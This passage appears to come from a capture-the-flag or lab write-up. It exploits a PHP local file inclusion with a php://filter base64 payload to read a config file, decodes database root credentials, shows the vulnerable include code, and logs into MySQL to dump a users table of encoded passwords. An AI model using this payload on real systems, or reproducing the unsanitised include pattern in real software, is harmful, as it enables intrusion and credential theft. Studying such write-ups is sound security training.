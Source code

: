 Using a filter, when the site loaded the local resource (it would still only work with its local, defined resources), I could get it to output the base64 encoded content of the indicated reource, e.g. the config file:

`http://192.168.1.70/?page=php://filter/convert.base64-encode/resource=config` (rather than `?page=config`)

This prints the string on the page: `PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+` which decodes to (I used burp decoder):

```php
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

These credentials will be useful in the next step.

Additionally, I can decode the relevant section of index.php to see how this all works:

```php
if (isset($_GET['page']))
	{
		include($_GET['page'].".php");
	}
```

## MySql and login

I can use the credentials above to log into mysql remotely (`mysql -h <ip> -u root -p` plus the password from above). It contained a single table of note, containing the users for the site with encoded passwords:

```bash
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |                                                                                                                                                                                                 
| mike | U0lmZHNURW42SQ== |                                                                                                                                                                                                 
| kane | aVN2NVltMkdSbw== |                                                                                                                                                                                                 
+------+------------------+                                                                                                                                                                                                 
3 rows in set (0.001 sec)       
```
